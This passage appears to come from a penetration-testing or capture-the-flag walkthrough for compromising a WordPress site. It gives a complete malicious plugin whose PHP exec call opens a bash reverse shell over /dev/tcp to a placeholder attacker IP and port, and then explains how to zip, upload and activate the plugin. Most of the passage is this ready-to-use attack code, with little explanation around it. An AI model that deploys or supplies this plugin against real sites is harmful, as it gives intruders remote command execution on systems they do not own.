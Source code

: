 ![img](assets/2.PNG)

### Shell

make a plugin to get a shell, you can read about it [here](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell) or you can use [pentestmonkey reverse shell php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/[ipattacker]/[portattacker] 0>&1'");
?>
```

save with the name you want for example shell.php then archive it into a zip file.
upload the zip file in the plugin menu and activate it.

![img](assets/3.PNG)
